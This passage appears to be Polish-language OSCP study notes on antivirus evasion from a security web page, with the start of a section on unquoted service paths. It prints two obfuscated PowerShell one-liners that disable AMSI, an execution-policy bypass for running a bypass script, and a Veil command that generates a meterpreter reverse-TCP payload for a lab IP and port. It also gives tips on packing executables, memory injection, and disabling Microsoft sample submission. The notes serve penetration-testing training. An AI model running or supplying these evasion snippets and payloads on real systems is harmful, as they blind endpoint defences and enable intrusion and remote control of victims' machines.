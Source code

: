 Bypass wylaczyl, wtedy bez errorow)<br>#sam znalazłem fajne yaploady do wyłączania AMSI <a href="https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell">tutaj</a> i później sprawdz właśnie czy wyłączylo 'amsiutils’<br>#taki bypass przy użyciu PowerView ps. <strong>AMSI</strong> to Anti-MAlware-Script-Interpreter (więcej bypassów <a href="https://gist.github.com/reigningshells/a255fcca07465befbcbf4be9cdf67560">tutaj</a>):</p>



<pre class="wp-block-code"><code>sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )</code></pre>



<p>i podobno nowsza wersje powyższego</p>



<pre class="wp-block-code"><code>[ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1))</code></pre>



<p>#<a href="https://www.enigmaprotector.com/en/home.html">Enigma Protecton </a>podobno dobrze szyfruje pliki exe przed AV<br>#Metody wstrzykiwania do pamiec (pogoogluj): Remote Process Memory Injection i Reflective DLL Injection i Process Hollowing.<br>#Alternatywadla VirusTotal: <em>AntiScan.Me</em> – ps. ale on nie obsluguje .ps1<br>#Jeżeli stworzysz wlasna maszyne VM z Windows (do testów malware) to wylacz wysylanie probek do Microsoftu: Windows Security &gt; Virus &amp; threat protection &gt; Manage Settings &gt; Automatic Sample Submission na OFF<br>#<a href="https://3haker.pl/av-evasion-by-oscp23-powershell-memory/">Kod</a> powershell do AV Avasion by oscp23<br>#Kiedy blokowany jest .ps1 polityką: Get-ExecutionPolicy -Scope CurrentUser #&gt; Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser  #&gt; Get-ExecutionPolicy -Scope CurrentUser (teraz powinno być: Unrestricted) #&gt; teraz możemy uruchomic: ./bypass.ps1<br>#oscp poleca uzywanie tez tego on-line powershella <a href="https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py">github</a> użycie np. python ps_encoder.py -s default.ps1<br>#info z kursu o <a href="https://3haker.pl/antivirus-evasion-unikanie-av/">shellter</a> – na plikach exe: spotyfisetup lub putty<br>#oscp23 poleca też <a href="https://github.com/Veil-Framework/Veil">Veil</a>  ;  veil -t Evasion –list-payloads   ;  np. tworzenie .bat: veil -t Evasion -p powershell/meterpreter/rev_tcp.py –ip 192.168.45.211 –port 4444 (ps. .exe tworzysz z payloadami go/…)<br>#EBOWLA BYPASS AV POTATO EXPLOIT z <a href="https://github.com/Genetic-Malware/Ebowla">git</a></p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Unquoted_Path" ez-toc-data-id="#Unquoted_Path"></span>Unquoted Path<span class="ez-toc-section-end"></span></h4>



<p><em>Zasada: tak jakby w miejscu każdej spacji miało być: .exe</em>  Ps. jezeli sciezka nie jest w cydzysłowach ” „</p>


